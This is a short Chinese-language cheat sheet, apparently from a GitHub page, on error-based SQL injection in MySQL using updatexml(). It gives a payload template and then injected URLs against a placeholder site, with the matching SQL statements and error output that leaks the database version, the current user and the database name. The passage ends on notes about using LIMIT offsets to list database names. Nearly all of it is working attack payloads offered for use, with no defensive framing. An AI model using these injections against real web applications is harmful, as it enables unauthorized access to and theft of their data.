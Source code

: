 ## 0x00 记忆方式

updatexml(1,concat(0x7e,(payload),0x7e),1)

## 0x01 爆数据库版本



web语句: http://www.test.com/sql.php?sort=id, updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)



数据库语句: select * from test order by id, updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1);



```plain
mysql> select * from test order by id, updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1);
ERROR 1105 (HY000): XPATH syntax error: '~5.5.53~'
```

## 0x02 爆当前连接用户

web语句: http://www.test.com/sql.php?sort=id, updatexml(1,concat(0x7e,(SELECT user()),0x7e),1);



数据库语句: select * from test order by id,  updatexml(1,concat(0x7e,(SELECT user()),0x7e),1);



```plain
mysql> select * from test order by id, updatexml(1,concat(0x7e,(SELECT user()),0x7e),1);
ERROR 1105 (HY000): XPATH syntax error: '~root@localhost~'
```

## 0x03 爆当前连接的数据库

web语句: http://www.test.com/sql.php?sort=id, updatexml(1,concat(0x7e,(SELECT database()),0x7e),1);



数据库语句: select * from test order by id, updatexml(1,concat(0x7e,(SELECT database()),0x7e),1);



```plain
mysql> select * from test order by id, updatexml(1,concat(0x7e,(SELECT database()),0x7e),1);
ERROR 1105 (HY000): XPATH syntax error: '~test~'
```

## 0x04 爆库名

注意: LIMIT 0 修改会显示其他库名

例如:

LIMIT 0,1 修改为0 就是出1库

LIMIT 1,1 修改为1 就是出2库

